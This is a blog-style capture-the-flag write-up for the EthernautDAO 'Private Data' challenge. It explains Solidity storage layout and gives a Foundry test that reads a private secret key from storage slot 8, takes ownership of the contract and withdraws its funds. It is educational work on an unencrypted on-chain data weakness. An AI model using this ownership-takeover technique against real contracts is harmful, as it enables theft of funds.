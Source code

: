 ```yaml
---
title: 'EthernautDAO CTF — Private Data Solution'
excerpt: ΞthernautDAO is common goods DAO aimed at transforming developers into Ethereum developers. </br></br>Our goal for this challenge is to be able to take the ownership of the contract by calling the function `takeOwnership`  and then withdraw all the contract's funds by calling the `withdraw` function that can be called only by the owner of the contract.
coverImage:
  url: '/assets/blog/ethernautdao.jpeg'
  credit:
    name: ΞthernautDAO
    url: https://twitter.com/EthernautDAO
date: '2020-07-11T07:00:00.000Z'
author:
  name: Emanuele Ricci
  twitter: StErMi
  picture: '/assets/blog/authors/stermi.jpeg'
ogImage:
  url: '/assets/blog/ethernautdao.jpeg'
---
```


[ΞthernautDAO](https://twitter.com/EthernautDAO) is common goods DAO aimed at transforming developers into Ethereum developers.

They started releasing CTF challenges on Twitter, so how couldn't I start solving them?

[https://twitter.com/EthernautDAO/status/1543957806532833282](https://twitter.com/EthernautDAO/status/1543957806532833282)

# CTF 1: Private Data

The contract [0x620e0c88e0f8f36bcc06736138bded99b6401192](https://goerli.etherscan.io/address/0x620e0c88e0f8f36bcc06736138bded99b6401192) has been deployed on the Goerli network.

> Anyone can deposit ether, but only the owner can withdraw
> During contract creation a secret key is set, which allows o transfer ownership of the contract

Our goal for this challenge is to be able to take the ownership of the contract by calling the function `takeOwnership` and then withdraw all the contract's funds by calling the `withdraw` function that can be called only by the owner of the contract.

## Study the contracts

Let's start by reading the `constructor` code

```solidity
constructor(string memory rndString) {
    owner = msg.sender;

    // create a random number and store it in a private variable
    secretKey = uint256(
        keccak256(
            abi.encodePacked(
                blockhash(block.number - 1),
                block.timestamp,
                rndString
            )
        )
    );
}
```

Inside the `constructor` the deployer set up the `owner` equal to `msg.sender` and then initialize a `secretKey`.

To become the new owner of the contract and be able to call `takeOwnership` we must be able to reconstruct this secret key.

The first thing that you must remember when you use or develop on the blockchain is that **nothing** is private in the blockchain. Everything can be seen even if you declare a variable as `private` or `internal`. I suggest you to read more about this concept by reading [“SWC-136: Unencrypted Private Data On-Chain”](https://swcregistry.io/docs/SWC-136).

I'm saying this because the owner of the contract would think that there is no way that I would be able to read directly a `private` state variable. But in reality, we have two different way to do that:

1. you could re-construct the key by reviewing the deployment data on Etherscan or Tenderly
2. you could just fork the Goerli network in a block after the deployment and use [Foundry's Cheatcode](https://book.getfoundry.sh/forge/cheatcodes.html) to read the slot where that value is stored

We will go with the second options just because I think that it's more fun :D

First, we need to understand how the [Layout of State variables in Storage](https://docs.soliditylang.org/en/v0.8.15/internals/layout_in_storage.html#layout-of-state-variables-in-storage) work.

- Each storage slot will use 32 bytes (word size)
- For each variable, a size in bytes is determined according to its type
- Multiple, contiguous items that need less than 32 bytes are packed into a single storage slot if possible according to the following rules:
  - The first item in a storage slot is stored lower-order aligned.
  - Value types use only as many bytes as are necessary to store them.
  - If a value type does not fit the remaining part of a storage slot, it is stored in the next storage slot.
  - Structs and array data always start a new slot and their items are packed tightly according to these rules.
  - Items following struct or array data always start a new storage slot.

Let's now look at the Contract variables layout:

```solidity
    uint256 public constant NUM = 1337;
    address public owner;
    bytes32[5] private randomData;
    mapping(address => uint256) public addressToKeys;
    uint128 private a;
    uint128 private b;
    uint256 private secretKey;
```

First thing to note is that `constant` and `immutable` variables will not take a storage slot because they will be directly replaced in the code at compile time or during deployment time (immutable). See more on the ["Constant and Immutable State Variables"](https://docs.soliditylang.org/en/v0.8.15/contracts.html?highlight=constant#constant-and-immutable-state-variables) documentation page.

So let's make some math, given each variable type we can know which slot they will use:

- `owner` will be at **slot0**
- `randomData` will take slot **from slot1 to slot5** because it is a static array of five elements
- `addressToKeys` will take **slot6**. For mapping and dynamic arrays, it's the layout is a little more complicated, but it's not relevant for this challenge. I anyway suggestion to read more on ["Mappings and Dynamic Arrays"](https://docs.soliditylang.org/en/v0.8.15/internals/layout_in_storage.html#mappings-and-dynamic-arrays) documentation page.
- `a` and `b` variable will use the same **slot7** because they take in total 32 bytes
- This mean that our `secretKey` variable will take **slot8**!

Why is so important to know which slot is used by our variable?

Because by forking the chain and by using Foundry Cheatcode we can directly read a Contract's slot value in a specific block in time even if the variable is private!

## Solution code

Now what we need to do is:

- Create an Alchemy or Infura account to be able to fork the Goerli blockchain
- Choose a good block from which we can create a fork. Any block after the creation of the contract will be good
- Run a foundry test that will use the fork, read the slot, print it out and boom! We know which is the `secretKey`

Here's the code that I used for the test:

```solidity
// SPDX-License-Identifier: Unlicense
pragma solidity ^0.8.13;

import "./utils/BaseTest.sol";
import "src/PrivateData.sol";

contract PrivateDataTest is BaseTest {
    PrivateData private privateData;

    constructor() {
        string[] memory userLabels = new string[](2);
        userLabels[0] = "Alice";
        userLabels[1] = "Bob";
        preSetUp(2, 100 ether, userLabels);
    }

    function setUp() public override {
        // Call the BaseTest setUp() function that will also create testsing accounts
        super.setUp();

        // Attach the contract to the addresses on the fork
        privateData = PrivateData(payable(0x620E0c88E0f8F36bCC06736138bDEd99B6401192));

        vm.label(address(privateData), "PrivateData");
    }

    function testTakeOwnership() public {
        address player = users[0];
        vm.startPrank(player);

        // assert we are not the owners
        address owner = privateData.owner();
        assertEq(owner == player, false);

        // load the secret key slot from slot 9
        bytes32 secretKeyBytes = vm.load(address(privateData), bytes32(uint256(8)));
        uint256 secretKey = uint256(secretKeyBytes);

        console.log("secretKey", secretKey);

        // take the ownership of the contract
        privateData.takeOwnership(secretKey);

        // assert we are the onwer
        assertEq(privateData.owner(), player);

        // withdraw all the funds, if we are the owner it shoud not revert
        privateData.withdraw();

        vm.stopPrank();
    }
}
```

Here is the command I have used to run the test: `forge test --match-contract PrivateDataTest --fork-url <your_rpc_url> --fork-block-number 7178864 -vv`

Just remember to replace `<your_rpc_url>` with the RPC URL you got from Alchermy or Infura.

Now we can go directly on Etherscan and call `takeOwnership` passing the `secretKey` we just printed in the console.

You can read the full solution of the challenge, opening [PrivateData.t.sol](https://github.com/StErMi/ethernautdao-ctf/blob/main/test/PrivateData.t.sol)

## Further reading

- [SWC-136: Unencrypted Private Data On-Chain](https://swcregistry.io/docs/SWC-136)
- [Foundry's Cheatcode](https://book.getfoundry.sh/forge/cheatcodes.html)
- [Layout of State variables in Storage](https://docs.soliditylang.org/en/v0.8.15/internals/layout_in_storage.html#layout-of-state-variables-in-storage)
- [Constant and Immutable State Variables](https://docs.soliditylang.org/en/v0.8.15/contracts.html?highlight=constant#constant-and-immutable-state-variables)
- ["Mappings and Dynamic Arrays"](https://docs.soliditylang.org/en/v0.8.15/internals/layout_in_storage.html#mappings-and-dynamic-arrays)

## Disclaimer

All Solidity code, practices and patterns in this repository are DAMN VULNERABLE and for educational purposes only.

I **do not give any warranties** and **will not be liable for any loss** incurred through any use of this codebase.

**DO NOT USE IN PRODUCTION**.
